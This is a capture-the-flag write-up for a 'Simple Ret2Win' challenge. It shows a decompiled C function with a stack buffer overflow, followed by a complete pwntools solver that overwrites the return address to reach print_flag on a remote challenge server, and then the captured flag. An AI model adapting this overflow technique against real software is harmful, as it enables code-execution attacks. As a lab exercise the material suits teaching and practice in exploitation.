

# Simple Ret2Win

<figure><figcaption></figcaption></figure>

Given an ELF file, if we run it:

<figure><figcaption></figcaption></figure>

then we proceed to decompile the file and got the vuln is a **BOF(Buffer Overflow)** in **vulnerable\_function**

```c
int vulnerable_function()
{
  char buf[64]; // [rsp+0h] [rbp-40h] BYREF

  printf("Enter your message: ");
  read(0, buf, 0x78u);
  return printf("You entered: %s\n", buf);
}
```

the binary also have a **print\_flag** or the win function. so we just have to **BOF** then return to **print\_flag**. The twist here is that printf stops when it encountered a null byte (**\x00**), so at the back of the payload we just add a null byte padding.

solver.py:

```python
from pwn import *

context.binary = ELF('./vuln', checksec=False)
#p = process('./vuln')
p = remote('18.136.199.188',9001)

PRINT_FLAG = 0x4011b6
RET       = 0x40101a   # stack alignment

offset = 72

payload  = b'A'*63 + b'\x00'              # terminator utk printf
payload += b'B'*(offset - len(payload))
payload += p64(RET)
payload += p64(PRINT_FLAG)

p.recvuntil(b'Enter your message:')
p.send(payload)
p.interactive()
```

if we run it:

<figure><figcaption></figcaption></figure>

#### Flag: RTRTNI25{Ju5t\_4\_Sm4ll\_0v3rfl0w\_t0\_G3t\_th3\_W1n!}
